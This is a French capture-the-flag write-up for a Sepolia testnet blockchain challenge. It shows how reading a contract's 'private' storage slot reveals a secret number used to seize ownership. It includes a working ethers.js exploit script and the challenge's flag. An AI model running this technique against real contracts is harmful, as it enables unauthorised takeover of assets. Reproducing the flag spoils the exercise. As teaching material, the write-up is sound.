

# Storage - WriteUp

<div align="center">
  <a href="https://hackynov.fr"></a>
</div>

## Contexte

Les challenges Blockchain se déploient et se vérifient sur une autre plateforme qui ressemble à ça :


**La description du challenge :**

```
Vous allez devoir récupérer un nombre secret en analysant le code du contrat. Votre but est de devenir "owner" du contrat en utilisant vos connaissances sur la Blockchain.

Vous utiliserez le réseau de test Sepolia pour faire vos challenges.
```

| Nom du challenge | Catégorie  | Nombre de points | Nombre de résolution |
| ---------------- | ---------- | ---------------- | -------------------- |
| Storage          | Blockchain | A définir        | 0/XX                 |

## Déploiement du challenge

La première étape avant de se lancer dans la résolution de `Storage` est de connecter son wallet à la plateforme. Il suffit d'avoir un wallet à disposition (par exemple <a href="https://metamask.io/">Metamask</a>) et de quelques **$ETH** de test sur le réseau **Sepolia**. (que vous pouvez récupérer gratuitement sur des faucet comme <a href="https://www.alchemy.com/faucets/ethereum-sepolia">Alchemy</a> ou <a href="https://www.infura.io/faucet/sepolia">Infura</a>)

Un fois cela fait, vous pouvez cliquer sur le bouton `CONNECT` en haut à droite et connecter votre wallet.

Vous pouvez à présent cliquer plus sur le bouton `DÉPLOYER UNE INSTANCE DU CONTRAT` qui aura pour effet de déployer une instance spécialement pour vous. Son adresse s'affichera sur la page et dans la console une fois la transaction traîtée.

Quand vous pensez avoir réussi le challenge, cliquer sur `VÉRIFIER L'INSTANCE`. Vous devrez alors valider deux transactions et si vous avez bel et bien réussi, alors le flag s'affichera sur la page et dans la console.

Introduction terminée, passons à la résolution du challenge !

## Solution

Après avoir déployé votre instance du contrat, nous allons récupérer son adresse et son code pour le charger dans notre éditeur <a href="https://remix.ethereum.org/">Remix IDE</a>



On connecte bien son wallet sur Remix en utilisant l'environnement de déploiement `"Injected Provider"` et on se met sur le réseau de test Sepolia.
On compile le code du contrat à pirater et on colle l'adresse de notre instance dans la partie `At Address` en bas à gauche. On clique ensuite sur ce m^me bouton pour charger notre instance et intéragir avec.


Il s'affiche ensuite en dessous dans la partie `Deployed Contracts`.
Le but est de devenir owner du contrat. On voit une fonction `getOwner()` en visibilité public : en l'appelant on récupère owner actuel qui n'est évidemment pas notre adresse de wallet.

### Analyse du code

On remarque dans le code une fonction qui nous permet de devenir owner : `changeOwner()`. Elle prend en paramètre un **nombre secret** que nous devons trouver et si l'on donne le bon, alors on récupère l'ownership de l'instance.
La fonction le compare à la valeur de la variable `s_secretNumber`. Malheureusement cette variable est en visibilité `private`, nous ne pouvons pas l'appeler pour lire sa valeur.
Ce n'est pas pour autant que ce n'est pas possible. Cette variable est stockée dans le Storage du smart contract. Nous devons trouver le numéro de Slot où la variable est stockée puis lire ce Slot.
La variable est sur le Slot 3.

Pour apprendre à calculer le numéro de Slot d'une variable, vous pouvez aller voir sur site : https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html

### Exploitation

Nous allons utiliser la library `ethersjs` pour charger notre contrat et récupérer la valeur du Slot 3.

```js
const ethers = require("ethers");
const fs = require("fs-extra");
require("dotenv").config();

async function main() {
  const { PRIVATE_KEY, SEPOLIA_RPC_URL, CONTRACT_ADDRESS, CONTRACT_NAME } =
    process.env;
  const provider = new ethers.JsonRpcProvider(SEPOLIA_RPC_URL);
  const wallet = new ethers.Wallet(PRIVATE_KEY, provider);

  // The ABI and binary files of the compiled contract
  const abi = fs.readFileSync(`./File_sol_${CONTRACT_NAME}.abi`, "utf-8");
  const binary = fs.readFileSync(`./File_sol_${CONTRACT_NAME}.bin`, "utf-8");

  // To load a deployed contract
  const contract = new ethers.Contract(CONTRACT_ADDRESS, abi, wallet);

  // To get the Slot 3
  const secretNumber = await getStorage(CONTRACT_ADDRESS, 3, provider);
  console.log(`Keccak secret value : ${secretNumber}`);

  // To call the changeOwner() function to get the ownership
  const tx = await contract.changeOwner(secretNumber);
  await tx.wait();
}

// To get storage datas of a contract
async function getStorage(contractAddress, slotNumber, provider) {
  return await provider.getStorage(contractAddress, slotNumber);
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error);
    process.exit(1);
  });
```

Il suffit d'exécuter notre script qui va nous afficher la valeur du nombre secret. Et appeler la function `changeOwner()` pour récupérer l'ownership.

Nous somme maintenant owner du contrat, nous pouvons aller demander le flag !

### Envoi de l'instance pour vérification

Nous avons atteint l'objectif, c'est à dire devenir owner du contrat, nous pouvons donc retourner sur la plateforme pour faire vérifier notre instance.
Il suffit de cliquer sur le bouton `VÉRIFIER L'INSTANCE` et de valider les deux transactions qui vont apparaître.
Si tout est bon, alors le flag s'affichera sur la page et dans la console.

**BRAVO !**

FLAG : **HN0x03{R34d_tH3_Sl0tS_t0_f1ND}**
